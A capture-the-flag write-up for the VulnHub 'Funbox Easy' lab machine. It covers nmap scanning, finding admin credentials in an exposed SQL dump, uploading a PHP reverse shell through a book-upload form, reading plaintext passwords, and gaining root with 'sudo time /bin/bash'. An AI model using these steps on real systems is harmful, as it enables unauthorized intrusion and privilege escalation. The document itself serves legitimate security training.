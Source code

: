 # Funbox

## Nmap scan

```shell
$ nmap -sV -sC -p- --min-rate=10000 funboxeasy
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-09 13:53 EDT
Nmap scan report for funboxeasy (192.168.138.111)
Host is up (0.066s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b2:d8:51:6e:c5:84:05:19:08:eb:c8:58:27:13:13:2f (RSA)
|   256 b0:de:97:03:a7:2f:f4:e2:ab:4a:9c:d9:43:9b:8a:48 (ECDSA)
|_  256 9d:0f:9a:26:38:4f:01:80:a7:a6:80:9d:d1:d4:cf:ec (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 1 disallowed entry 
|_gym
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx  MySQL X protocol listener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.87 seconds
```

## Enumeration

### Gym

http://easy/gym/img/PROJECT%20REPORT(1)%20(1).pdf -> Source code and database information here

### Store

http://easy/store/database/www_project.sql -> Found admin's credentials here

http://easy/store/admin.php -> Admin login page here

http://easy/store/admin_add.php -> File upload functionality here

http://easy/store/admin_edit.php?bookisbn=978-1-49192-706-9 -> Changing the book file to `php-rev-shell.php` here... Make sure to set the right publisher_id to successfully add a new book, refer to the database.

![](../png/vulnhub_funboxeasy.png)

## Exploitation

After uploading the book, start a listener and go to http://easy/store/index.php to catch the shell.

```shell
$ cat /home/tony/password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
```

`gym/admin` credentials work here -> http://easy/admin/home.php

SSH using tony's credentials

## Privilege Escalaltion

```shell
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════
                      ╚════════════════════════════════════╝
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
strings Not Found
-rwsr-xr-- 1 root messagebus 51K Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 23K Aug 16  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 463K May 29  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 128K Jul 10  2020 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 39K Apr  2  2020 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 163K Feb  3  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 15K Apr 21  2017 /usr/bin/time # <-- Highlighted
```

```shell
tony@3:~$ sudo -l
Matching Defaults entries for tony on 3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on 3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

[time - GTFOBins](https://gtfobins.github.io/gtfobins/time/#sudo)

```shell
tony@3:~$ sudo time /bin/bash
root@3:/home/tony# cat /root/proof.txt
```

